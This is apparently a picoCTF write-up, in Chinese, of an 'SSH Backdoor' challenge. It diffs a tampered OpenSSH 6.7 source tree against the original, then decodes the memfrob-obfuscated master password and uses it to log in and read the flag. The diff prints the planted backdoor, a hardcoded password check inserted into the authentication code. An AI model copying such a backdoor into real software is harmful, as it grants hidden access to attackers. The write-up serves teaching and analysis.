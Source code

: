# SSH Backdoor
提示：hacker留了後門，也許你可以拿來和openssh原始碼做比較？
 * 下載[openssh-6.7](openssh-6.7p1_origin.zip)，並使用 diff 察看hacker改了什麼檔案：
```
$ diff openssh-6.7p1_pico openssh-6.7p1_origin/
diff openssh-6.7p1_pico/auth.c openssh-6.7p1_origin/auth.c
777,794d776
<
< static int frobcmp(const char *chk, const char *str) {
< 	int rc = 0;
< 	size_t len = strlen(str);
< 	char *s = xstrdup(str);
< 	memfrob(s, len);
<
< 	if (strcmp(chk, s) == 0) {
< 		rc = 1;
< 	}
<
< 	free(s);
< 	return rc;
< }
<
< int check_password(const char *password) {
< 	return frobcmp("CGCDSE_XGKIBCDOY^OKFCDMSE_XLFKMY", password);
< }
diff openssh-6.7p1_pico/auth.h openssh-6.7p1_origin/auth.h
214,215d213
< int check_password(const char *);
<
diff openssh-6.7p1_pico/auth-passwd.c openssh-6.7p1_origin/auth-passwd.c
115,117d114
< 	if (check_password(password)) {
< 		return ok;
< 	}
Only in openssh-6.7p1_pico: buildpkg.sh
Only in openssh-6.7p1_pico: config.h
Only in openssh-6.7p1_pico: config.log
Only in openssh-6.7p1_pico: config.status
Common subdirectories: openssh-6.7p1_pico/contrib and openssh-6.7p1_origin/contrib
Only in openssh-6.7p1_pico: Makefile
Common subdirectories: openssh-6.7p1_pico/openbsd-compat and openssh-6.7p1_origin/openbsd-compat
Only in openssh-6.7p1_pico: opensshd.init
Only in openssh-6.7p1_pico: openssh.xml
Common subdirectories: openssh-6.7p1_pico/regress and openssh-6.7p1_origin/regress
Common subdirectories: openssh-6.7p1_pico/scard and openssh-6.7p1_origin/scard
Only in openssh-6.7p1_pico: survey.sh
```
diff 告訴我們，hacker把authentication method 改成：
 * ```frobcmp("CGCDSE_XGKIBCDOY^OKFCDMSE_XLFKMY", password)```檢查通過，就能登入server
  * frobcmp 把加密後的password 和```"CGCDSE_XGKIBCDOY^OKFCDMSE_XLFKMY"```比較
  * 加密password的方法是：```memfrob(xstrdup(password), strlen(password))```
 * 看看 memfrob 做什麼：$ man memfrob
```
SYNOPSIS
       #define _GNU_SOURCE             /* See feature_test_macros(7) */
       #include <string.h>

       void *memfrob(void *s, size_t n);
DESCRIPTION
       The memfrob() function encrypts the first n bytes of the memory
       area s by exclusive-ORing each character with  the  number  42.
       The  effect can be reversed by using memfrob() on the encrypted
       memory area.

       Note that this function is not a proper encryption  routine  as
       the  XOR  constant  is  fixed,  and is suitable only for hiding
       strings.
```
 * 重點：**The  effect can be reversed by using memfrob() on the encrypted
 memory area.**

## Solve
 * 寫個[程式](gen_password.c)，對`CGCDSE_XGKIBCDOY^OKFCDMSE_XLFKMY`做`memfrob`
 * 得到password = ```iminyourmachinestealingyourflags```
 * 登入backdoor.picoctf.com：
```
$ ssh jon@backdoor.picoctf.com
jon@backdoor.picoctf.com's password:
Last login: Wed Jul 22 20:14:47 2015 from f053221121.adsl.alicedsl.de
jon@ip-10-45-162-116:~$ ls
flag.txt
jon@ip-10-45-162-116:~$ cat flag.txt
ssshhhhh_theres_a_backdoor
```
